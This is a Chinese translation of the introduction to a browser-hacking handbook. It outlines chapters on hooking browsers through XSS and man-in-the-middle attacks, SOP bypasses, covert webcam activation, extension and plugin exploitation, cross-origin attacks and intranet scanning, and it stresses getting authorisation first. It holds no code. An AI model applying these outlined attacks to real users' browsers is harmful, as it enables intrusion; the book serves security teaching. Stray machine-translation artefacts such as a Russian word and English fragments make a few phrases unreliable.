感谢 Krztof Kotowicz、Nick Freeman、Patroklos Argyroudis 和 Chariton Karamitas 的专家贡献。虽然我们无法逐一感谢所有人，但我们想对一些值得特别提及的人给予特别关注。他们是：Brendan Coles、Heather Pilkington、Giovanni Cattani、Tim Dillon、Bernardo Damele、Bart Leppens、George Nicolau、Eldar Marcussen、Oliver Reeves、Jean-Louis Huynen、Frederik Braun、David Taylor、Richard Brown、Roberto Suggi Liverani 和 Ty Miller。毫无疑问，我们错过了重要的人。如果我们错过了，那错误是由遗漏造成的，而非意图。

— From all of us

# Introduction

# 书籍概览

你选择阅读这本书，它将为你提供对黑客化日常 web browser 的实用理解，并将其作为跳板来发起进一步攻击。攻击将集中在最流行的浏览器上，并偶尔深入研究不太主流的浏览器。你主要会探索 Firefox、Chrome 和 Internet Explorer。你甚至会涉足现代移动浏览器的领域，虽然这些浏览器不会是主要焦点，但许多攻击对它们同样适用。

攻击者和防御者都需要理解浏览器为用户打开了哪些危险。原因显而易见。浏览器可能是本世纪迄今为止最重要的软件。它是人类访问在线环境的最受欢迎的门户—— настолько popular 以至于你可以看到它从笨重的桌面软件成长为手机、游戏机乃至电视的主导应用。它是当今的瑞士军刀，用于展示、检索和导航数据。自 Sir Tim Berners-Lee 在 1990 年发明他的“小小的浏览器”以来，这款表现出色的应用已成为世界上最具标志性的软件之一。

关于全球使用 web browser 的人数，不断有各种估计。进行一些“抓阄”计算，会显示出一些惊人的数字。如果你说大约三分之一的全球人口在使用互联网，那么你可以估算出大约 23 亿个浏览器。进一步做一些假设，你可能会发现有些人在家、在工作和手机上都在使用浏览器。即使没有斯蒂芬·霍金的数学洞察力，你也已经得出了一个惊人的数字。

鉴于这个惊人的 web browser 数量，这并不奇怪，因为这种受欢迎带来了大量的安全问题和被利用的机会。从黑客的视角出发，这本书将教你如何黑客化现代浏览器，从而教你如何保护现代浏览器。

# 谁应该阅读这本书

你是否有技术背景，并且想了解 web browser 的实际风险？如果是，那么这本书就是为你准备的。你可能想捍卫你的基础设施，或者攻击你的客户资产。你可能是管理员、开发人员，甚至是信息安全专业人士。和很多人一样，你可能仅仅是对安全充满热情，并不断寻求扩展你的知识。

这本书假设你经常使用 web browser，并且偶尔会查看其内部工作 ings。如果你已经掌握了基本的安全概念，或者愿意投入一些时间进行背景研究，这将对你有帮助。服务器-客户端模型、HTTP 协议以及一般的安全概念对你来说不应是新鲜事。

虽然没有编程背景并不完全必要，但拥有一些基本的编程知识在阅读代码片段时会很有帮助。书中提供了大量的例子和演示，让你获得动手经验。这些示例使用多种语言编写，重点放在 JavaScript 上，因为它在浏览器中占主导地位。尽管可能性很小，但如果你以前从未使用过 JavaScript，也不用担心。代码也会附带解释。

# 这本书的组织方式

本书包含 10 章，这些章节大致根据攻击方法进行分类。可能会将章节细分为漏洞类别，但这并非严格的规定。书籍的组织结构是作者们设想的，可能对你在专业安全任务中有所帮助。

在任何安全任务中，你不太可能从头到尾阅读这本书。相反，你会从介绍章节开始，然后跳转到最相关的章节。或者，你可能会直接跳到某个部分，那里详细讨论了一个概念。为了支持这种更动态的使用方式，一些概念被重复以增加上下文和连贯性。

每章结束时都有一组供你思考的问题。这些问题将为你提供一个机会，巩固对章节核心概念的理解。

## 第 1 章：Web Browser Security


# 本章将带你踏上浏览器黑客之旅的起点。你的第一步是探索重要的浏览器概念以及一些浏览器安全的核心问题。你将探索当今组织防御所需的微型边界范式，并思考那些继续传播不安全实践的谬误。

本章还考察了一种方法论，说明如何发起利用浏览器的攻击。它涵盖了浏览器所呈现的攻击面，以及它如何增加之前被认为受保护的资产的暴露程度。

## 第 2 章：启动控制

每一次 Web 浏览器连接到 Web 时，它都在请求指令。浏览器然后忠实地执行由 Web 服务器提供的指令。不用说，边界是存在的，但浏览器为攻击者提供了一个强大的环境来发挥作用。

本章通过探索如何在目标浏览器中执行你的代码，带你进入浏览器攻击的第一阶段。你将体验到跨站脚本漏洞、中间人攻击、社交工程等的乐趣。

## 第 3 章：保持控制

到目前为止讨论的启动技术只能让你一次性执行你的指令。本章介绍如何保持通信和持久性，使你能够以交互的方式控制目标，并能够执行多轮命令。

在典型的黑客会话中，你会希望与浏览器保持通信通道，并且在可能的情况下，跨重启保持对控制的持续。没有这方面，你会很快发现自己不得不一次又一次地诱导目标连接，回到原点。

在本章中，你学习如何使用负载（payload）与浏览器保持通信，从而能够发送多次指令迭代。这将确保在你获得了至关重要的初始连接后，不会浪费任何机会。掌握这些知识后，你现在已准备好在后续章节中发起各种攻击。

## 第 4 章：绕过同源策略

在最基本的意义上，同源策略（SOP）限制一个网站与另一个网站交互。它可能是 Web 浏览器安全中最基础的概念。你本应期望它在浏览器组件之间是一致的，并且常见操作的影响是可预测的。本章表明这并非如此。

Web 开发者几乎在每个转折点都会被 SOP“敲打”；SOP 在浏览器本身、扩展程序以及插件上应用方式存在差异。这种不一致性和缺乏理解为攻击者提供了利用边缘情况的机会。

本章探讨了绕过浏览器中不同 SOP 控制的方法。你甚至会发现拖放操作以及各种 UI 重定向和时间攻击的问题。本章中一个更令人惊讶的发现是，通过正确的编码，SOP 绕过可以将浏览器转变为 HTTP 代理。

## 第 5 章：攻击用户

人类常被描述为安全的“最弱链接”。本章专注于针对不安全用户“wetware”（心理/行为层面）的攻击。某些攻击进一步利用了第 2 章中讨论的社交工程战术。其他攻击则利用浏览器特性以及对接收代码的信任。

在本章中，你将探索去匿名化、隐蔽地启用网络摄像头，以及在无需显式用户介入的情况下运行恶意执行文件。

## 第 6 章：攻击浏览器

整本册书的主题都是攻击浏览器并绕过其安全控制，但本章专注于所谓的“裸机”浏览器，即没有扩展和插件的浏览器。

本章中，你将探索直接攻击浏览器的过程。你将深入了解浏览器指纹识别，以区分供应商和版本。你还将学习如何发起攻击并 compromise 运行浏览器的机器。

## 第 7 章：攻击扩展

本章专注于利用浏览器扩展的漏洞。扩展是软件，它在浏览器中添加（或移除）功能。扩展不是像它们的“第二 cousins”（第二亲戚，即插件）那样独立的程序。你可能熟悉 LastPass、Firebug、AdBlock 和 NoScript 等扩展。

扩展在受信任的区域执行代码，并拥有增加的权限，同时接收来自不太受信任的区域（如 Internet）的输入。这会警报经验丰富的安全专业人士。存在注入攻击的真实风险，实际上，某些攻击导致远程代码执行。

本章中，你将探索扩展攻击的解剖结构。你将深入研究特权提升（privilege escalation）漏洞，这些漏洞将使你获得对受信任浏览器（或 chrome://）区域的访问，并导致命令执行。

## 第 8 章：攻击插件

本章专注于攻击浏览器插件，这些插件是软件，用于为浏览器添加特定功能。在大多数情况下，插件软件可以独立于浏览器运行。

流行的插件包括 Acrobat Reader、Flash Player、Java、QuickTime、RealPlayer、Shockwave 和 Windows Media Player。有些对于你的浏览体验是必需的，有些则用于业务功能。Flash 用于 YouTube 等站点（YouTube 可能正在向 HTML5 迁移），Java 则用于 WebEx 等业务功能。

插件一直受到漏洞的困扰，并且仍然是 exploit（利用）的丰富来源。正如你将发现的，插件漏洞仍然是控制浏览器的最可靠途径之一。

本章中，你将学习如何使用流行的、免费的工具来分析和利用浏览器插件。你将了解如何绕过 Click to Play 等保护机制，并通过利用插件漏洞来控制目标。

## 第 9 章：攻击 Web 应用

你的日常浏览器可以在遵守接受的安全控制的同时，发起强大的 Web 攻击。浏览器设计用于使用 HTTP 与 Web 服务器通信。这些 HTTP 功能可以被用来针对当前来源之外的目标进行妥协。

本章专注于从浏览器发起而不违反 SOP 的攻击。你将学习各种技巧，允许跨源指纹识别资源，甚至跨源识别常见的 Web 应用漏洞。你可能会惊讶于，使用浏览器时，可以发现并利用跨源的跨站脚本（XSS）和 SQL 注入漏洞。

到本章结束时，你将了解如何实现跨源远程代码执行（cross-origin remote code execution）。你还将发现跨站请求伪造（CSRF）攻击、基于时间的延迟枚举、攻击认证以及拒绝服务（DoS）攻击。

## 第 10 章：攻击网络

这一最终攻击章节涵盖了通过端口扫描识别内网攻击面的过程，以发现先前未知的主机。探索继续，并介绍了 NAT 钉子（NAT Pinning）等技术。

本章中，你还将发现利用浏览器直接与非 Web 服务进行通信的攻击。你将学习如何利用协议漏洞（Inter-protocol Exploitation）技术来 compromise 目标在浏览器内网的系统。

# 网络上的内容


该书的配套网站位于[`https://browserhacker.com`](https://browserhacker.com%20)或维基网站[`www.wiley.com/go/browserhackershandbook`](http://www.wiley.com/go/browserhackershandbook)。在这些网站上，您可以找到与本书内容相辅相成的信息。它不是替代，但细节将补充您从章节中获得的知识。

网站还包含代码片段，供您复制粘贴使用。这将使您免于手动转录的麻烦，并且（希望）能够延缓重复性劳损（RSI）的发生！您还将找到视频演示供观看，以及每章问题的答案，供您核查知识。

我们谦虚地承认，这本书必然存在错误。令人遗憾的是，除其中一位作者外，其他所有作者都是有缺陷的（我们仍在激烈争论谁是那个无懈可击的人）。请访问[`https://browserhacker.com`](https://browserhacker.com)查看我们是否已经确定了有缺陷的一位，当然，也可以在发现我们读者所犯错误后进行更正。如果您发现错误，请检查网站，如果未列出，请通知我们。

# 编译您的武器库

本书涵盖了多种工具，可用于劫持网络浏览器，拥有多样化的工具箱是有价值的。

需要强调的是，本书旨在让您了解工具的低层次工作原理。随着技能水平的提升，这将是一个极具价值的洞察。其目标不仅是教您如何使用工具，更是让您理解它们，并能够识别不可避免的误报。

希望您能理解所有工具都有弱点，您应将此事实与您的安全实践相结合。您工具箱中最重要的工具是您的知识。作者的主要目标是扩展您的理解，而非扩展您的软件库。

本书中频繁出现的工具包括浏览器攻击框架（BeEF）和 Metasploit。当然，还有许多其他工具被涵盖，您将了解它们的优势和劣势。

作者是 BeEF 项目的核心开发者，并根据本文所述的方法论引导了该社区工具的开发。大量示例来自 BeEF 代码库，其中大多数过程已被自动化。

# 授权被拒绝

这是本书中暂停并强调安全学科专业性的一个好点。绝不应将本书中的任何内容解释为提供或鼓励进行非法行为的许可。

在进行黑客攻击之前，请确保您已获得全面的许可。这一点适用于大多数安全学科，也适用于本书中讨论的所有技术。

# 好了，开始吧！

网络浏览器安全是互联网上最快速发展的军备竞赛之一。这使得任何对安全感兴趣的人都能轻松参与，既有趣又令人兴奋。由于企业不断推动浏览器的功能边界，这一节奏不会放缓。

我们已经看到大型和小型公司都积极改变“可用且响应迅速的软件仅在桌面计算机上运行”这一假设。任何预测浏览器受欢迎程度下降的人都应该再次检查其 Ouija 板，因为他们很可能仍然启用了那个有缺陷的 Java 插件！

结合军备竞赛、商业利益以及不断变化的浏览器攻击面，安全挑战不会停止。所以，让我们立即开始，开始劫持浏览器！
